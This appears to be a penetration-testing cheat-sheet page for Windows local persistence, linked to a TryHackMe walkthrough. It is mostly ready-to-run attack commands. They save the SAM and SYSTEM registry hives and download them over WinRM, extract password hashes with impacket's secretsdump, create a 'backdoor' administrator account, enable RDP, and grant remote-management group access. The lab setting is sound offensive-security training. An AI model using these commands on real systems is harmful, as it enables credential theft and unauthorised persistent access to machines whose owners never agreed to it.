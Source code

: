 **Examples**

[#tampering-with-unprivileged-accounts](../../../../walkthroughs/tryhackme/windows-local-persistence.md#tampering-with-unprivileged-accounts "mention")

**Kali(WinRM)**

```
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

#### Dump hashes

**Examples**

[#tampering-with-unprivileged-accounts](../../../../walkthroughs/tryhackme/windows-local-persistence.md#tampering-with-unprivileged-accounts "mention")

**Kali**

```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```



## Add User & Assign Group Memberships

**Victim**

```
net user backdoor pass!123 /add
net localgroup Administrators backdoor /add
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v forceguest /t reg_dword /d 0 /f
```

### **Enable RDP**

**Victim**

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Add user to RDP Group

**Examples**

[#assign-group-memberships](../../../../walkthroughs/tryhackme/windows-local-persistence.md#assign-group-memberships "mention")

Add user to group that allows them to RDP

**Victim(cmd)**

```
net localgroup "Remote Management Users" $USER /add
```
